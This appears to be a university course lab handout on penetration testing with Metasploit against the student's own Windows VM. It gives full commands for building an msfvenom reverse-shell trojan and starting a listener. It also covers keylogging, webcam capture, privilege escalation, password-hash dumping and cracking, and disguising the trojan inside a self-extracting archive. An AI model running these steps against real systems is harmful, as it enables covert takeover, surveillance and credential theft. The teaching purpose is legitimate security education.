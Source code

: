 # its250
Online resources and examples

## Lab07: Penetration test

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video](https://youtu.be/qKudXchmnWc) to install Metasploit framework on Ubuntu.

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (5%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (5%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (10%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```
11. (20%) Cracking and changing Windows password.
    1. (10%) Dump the hash values of all saved passwords of all windows users, then crack with John the Ripper.
    ```bash
    # Inside meterpreter
    # 1. Check the priviledge that meterpreter is currently in
    getuid
    # 2. Escalate priviledge
    use priv
    getsystem
    getuid
    # 3. dump the hashes
    hashdump # save the result in a text file
    # 4. crack the hashes
    john --wordlist=pass_dict.txt --format=NT hashes.txt
    ```
    2. (10%) Change Windows users' password. Use a user found above, replace oldpass and newpass with yours
    ```bash
    # Inside msf
    msf > use post/windows/manage/change_password
    msf post(change_password) > set smbuser user_name
    msf post(change_password) > set old_password oldpass
    msf post(change_password) > set new_password newpass
    msf post(change_password) > set session 1
    msf post(change_password) > exploit
    ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.
2. Use Metasploit Framework GUI - Armitage
   1. Install Java JDK
      ```bash
      sudo apt install  default-jdk
      ```
   2. Download [Armitage](http://www.fastandeasyhacking.com) and extract it.
   3. Init Metasploit Framework database and load the MSGRPC Plugin
      ```bash
      msfdb reinit
      msfconsole
      msf > load msgrpc # note down the user name and password used for armitage
      ```
    4. Run Armitage and connect to the msfrpc running above
      ```bash
      export MSF_DATABASE_CONFIG="/home/$USER/.msf4/database.yml"
      ./armitage
      ```
    5. Enjoy Armitage

**Demo video**


## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)
* [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * [Quick Meterpreter and Metasploit tutorial - Stealing hashes and passwords, Keyloggers, Webcams and other post-exploitation modules](http://www.ethicalpentest.com/2018/03/meterpreter-metasploit-tutorial-part2.html)
  * [Post Exploitation for Remote Windows Password](https://www.hackingarticles.in/post-exploitation-remote-windows-password/)
  * [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
  * [Cracking Windows Password Hashes with Hashcat](https://samsclass.info/123/proj14/123p12winhash.htm)
  * [Meterpreter basics practice](https://www.utc.edu/center-academic-excellence-cyber-defense/pdfs/4660-lab6.pdf)
  * [Armitage](http://www.fastandeasyhacking.com)
    * [source](https://github.com/rsmudge/armitage)